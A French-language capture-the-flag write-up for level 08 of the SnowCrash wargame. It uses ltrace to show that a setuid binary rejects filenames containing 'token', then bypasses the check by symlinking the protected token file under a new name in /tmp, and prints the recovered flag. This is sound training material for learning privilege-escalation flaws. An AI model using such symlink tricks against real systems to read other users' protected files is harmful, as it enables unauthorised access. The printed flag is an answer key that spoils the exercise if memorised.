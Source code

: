 # LEVEL08

**ls -la** : `-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08`

ltrace ./level08 :

```
level08@SnowCrash:~$ ltrace ./level08 
__libc_start_main(0x8048554, 1, 0xbffff7f4, 0x80486b0, 0x8048720 <unfinished ...>
printf("%s [file to read]\n", "./level08"./level08 [file to read]
)               = 25
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

ltrace ./level08 token :

```
level08@SnowCrash:~$ ltrace ./level08 token 
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")               = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
) = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

On remarque que le programme vérifie que le fichier ne contient pas "token", il faut donc modifier le nom de celui-ci pour pouvoir le lire.

N'ayant pas les droits d'écritures dans le home, nous ne pouvons pas utiliser les commande `mv`, `cp`, `rename`.

Nous pouvons utiliser la commande `ln -s /home/user/level08/token /tmp/flag08`

Pour créer un lien symbolique, ce qui va nous permettre de créer un raccourci qu'on pourra nommer comme nous le souhaitons.

```
level08@SnowCrash:~$ ./level08 /tmp/flag08
quif5eloekouj29ke0vouxean
```
